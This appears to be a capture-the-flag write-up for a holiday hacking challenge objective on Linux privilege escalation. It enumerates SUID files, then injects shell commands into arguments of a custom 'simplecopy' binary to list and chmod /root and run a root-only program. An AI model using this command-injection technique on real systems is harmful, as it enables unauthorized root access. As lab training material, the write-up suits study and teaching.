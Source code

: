 # Objective 7: Linux PrivEsc
**Location: Island of Misfit Toys: Ostrich Saloon**  
**Hints provided by Rose Mold**

The objective is to perform a privilege escalation in a Linux terminal session. Finally the binary residing in `/root` has to be executed.
The first approach is to find `suid` files on the file system:
```
elf@745490537a8a:~$ find / -perm -4000 -ls 2>/dev/null
1312417 84 -rwsr-xr-x 1 root root 85064 Nov 29 2022 /usr/bin/chfn
1312423 52 -rwsr-xr-x 1 root root 53040 Nov 29 2022 /usr/bin/chsh
1312541 56 -rwsr-xr-x 1 root root 55528 May 30 2023 /usr/bin/mount
1312546 44 -rwsr-xr-x 1 root root 44784 Nov 29 2022 /usr/bin/newgrp
1312620 68 -rwsr-xr-x 1 root root 67816 May 30 2023 /usr/bin/su
1312484 88 -rwsr-xr-x 1 root root 88464 Nov 29 2022 /usr/bin/gpasswd
1312645 40 -rwsr-xr-x 1 root root 39144 May 30 2023 /usr/bin/umount
1312557 68 -rwsr-xr-x 1 root root 68208 Nov 29 2022 /usr/bin/passwd
1457015 20 -rwsr-xr-x 1 root root 16952 Dec 2 22:17 /usr/bin/simplecopy
```

`simplecopy` looks promising as this does usually not exist on Linux systems (and has a recent last modified date).

Invoking this binary with some test arguments shows interesting error messages and reveals the name of the binary in `/root`:
```
elf@745490537a8a:~$ simplecopy "; ls -l /root" b
cp: missing file operand
Try 'cp --help' for more information.
ls: cannot access 'b': No such file or directory
/root:
total 600
-rws------ 1 root root 612560 Nov 9 21:29 runmetoanswer
```

So it seems that it is possible to inject shell commands in the arguments. We use this to add read and execute permissions to `/root` and `/root/runmetoanswer`:
```
elf@745490537a8a:~$ simplecopy "a; chmod -R a+rx /root" b
cp: missing destination file operand after 'a'
Try 'cp --help' for more information.
chmod: cannot access 'b': No such file or directory
elf@745490537a8a:~$ ls -l /root
total 600
-rwsr-xr-x 1 root root 612560 Nov 9 21:29 runmetoanswer
elf@745490537a8a:~$ /root/runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```


**Achievement: Linux PrivEsc**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MjExNjI1MTAsLTE3NjY1NTE2MjAsLT
gyNjE3ODY4NCwtMjAxMDE5MjYzXX0=
-->